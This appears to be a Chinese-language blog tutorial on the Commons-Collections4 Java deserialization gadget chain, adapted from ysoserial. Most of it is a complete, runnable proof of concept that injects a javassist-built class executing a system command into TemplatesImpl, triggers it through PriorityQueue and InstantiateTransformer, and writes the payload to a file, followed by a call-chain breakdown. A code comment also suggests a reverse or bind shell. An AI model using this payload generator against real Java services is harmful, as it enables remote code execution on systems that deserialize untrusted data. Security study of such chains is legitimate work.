

## 环境准备

JDK1.8(8u421)这里ysoserial没有提及JDK版本的影响，我以本地的JDK8版本为准、commons-collections4(4.0 以ysoserial给的版本为准)、javassist(3.12.1.GA)

cc4.0、ClassPool

```xml
<dependency>
    <groupId>org.apache.commons</groupId>
    <artifactId>commons-collections4</artifactId>
    <version>4.0</version>
</dependency>
<dependency>
    <groupId>javassist</groupId>
    <artifactId>javassist</artifactId>
    <version>3.12.1.GA</version>
</dependency>
```

CC4概述

CC4 是 CC2+CC3 的一个变种，用 PriorityQueue 的 TransformingComparator 触发 ChainedTransformer，再利用 InstantiateTransformer 实例化 TemplatesImpl，主要核心还是CC2，只是最后的构造的payload触发从InvokeTranformer变成了InstantiateTransformer ，从而使得Templates构造方法能够被触发最终触发恶意代码。

## POC如下

还是对ysoserial的代码的修改版本，可以直接本地运行。

```java
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InstantiateTransformer;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ChainedTransformer;

import javax.xml.transform.Templates;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.PriorityQueue;

public class CommonsCollections4 {

    static String serialFileName = "commons-collections4.ser";

    public static void main(String[] args) throws Exception {
//        cc4byYsoSerial();
        verify();
    }

    public static void verify() throws Exception {
        // 本地模拟反序列化
        FileInputStream fis = new FileInputStream(serialFileName);
        ObjectInputStream ois = new ObjectInputStream(fis);
        Object ignore = (Object) ois.readObject();
    }
    public static void cc4byYsoSerial() throws Exception {

        String executeCode = "Runtime.getRuntime().exec(\"cmd /c start\");";
        ClassPool pool = ClassPool.getDefault();
        CtClass evil = pool.makeClass("ysoserial.Evil");
        // run command in static initializer
        // TODO: could also do fun things like injecting a pure-java rev/bind-shell to bypass naive protections
        evil.makeClassInitializer().insertAfter(executeCode);
        // sortarandom name to allow repeated exploitation (watch out for PermGen exhaustion)
        evil.setName("ysoserial.Pwner" + System.nanoTime());
        CtClass superC = pool.get(AbstractTranslet.class.getName());
        evil.setSuperclass(superC);

        final byte[] classBytes = evil.toBytecode();
        byte[][] trueclassbyte = new byte[][]{classBytes};

        Class<TemplatesImpl> templatesClass = TemplatesImpl.class;
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        Field bytecodes = templatesClass.getDeclaredField("_bytecodes");
        bytecodes.setAccessible(true);
        bytecodes.set(templates, trueclassbyte);

        Field name = templatesClass.getDeclaredField("_name");
        name.setAccessible(true);
        name.set(templates, "Pwnr");

        Field tfactory = templatesClass.getDeclaredField("_tfactory");
        tfactory.setAccessible(true);
        tfactory.set(templates, new TransformerFactoryImpl());

        // =============================================================================
        ConstantTransformer constant = new ConstantTransformer(String.class);
        // mock method name until armed
        Class[] paramTypes = new Class[] { String.class };
        Object[] args = new Object[] { "foo" };
        InstantiateTransformer instantiate = new InstantiateTransformer(
                paramTypes, args);


        // grab defensively copied arrays
        Field iParamTypes = instantiate.getClass().getDeclaredField("iParamTypes");
        iParamTypes.setAccessible(true);
        paramTypes = (Class[])iParamTypes.get(instantiate);
        Field iArgs = instantiate.getClass().getDeclaredField("iArgs");
        iArgs.setAccessible(true);
        args = (Object[])iArgs.get(instantiate);

        ChainedTransformer chain = new ChainedTransformer(new Transformer[] { constant, instantiate });

        // create queue with numbers
        PriorityQueue<Object> queue = new PriorityQueue<Object>(2, new TransformingComparator(chain));
        queue.add(1);
        queue.add(1);
        // swap in values to arm
//        Reflections.setFieldValue(constant, "iConstant", TrAXFilter.class);
        Field iConstant = constant.getClass().getDeclaredField("iConstant");
        iConstant.setAccessible(true);
        iConstant.set(constant, TrAXFilter.class);
        paramTypes[0] = Templates.class;
        args[0] = templates;

        FileOutputStream fos = new FileOutputStream(serialFileName);
        ObjectOutputStream oos = new ObjectOutputStream(fos);
        oos.writeObject(queue);
        oos.flush();
        oos.close();
    }
}
```

## 运行调试

来弹个窗口吧



## 调用链分析

调用链就是CC2和CC3的结合版本，如下：


* PriorityQueue.readObject()
  * PriorityQueue.heapify()
    * PriorityQueue.siftDown()
      * PriorityQueue.siftDownUsingComparator()
        * TransformingComparator.compare()
          * ChainedTransformer.transform()
            * ConstantTransformer.transform()		TrAXFilter
            * InvokerTransformer.transform()		  Templates
              * TrAXFilter()				           Templates
                * TemplatesImpl.newTransformer()
                * TemplatesImpl.getTransletInstance()
                * ......
                * 触发静态代码调用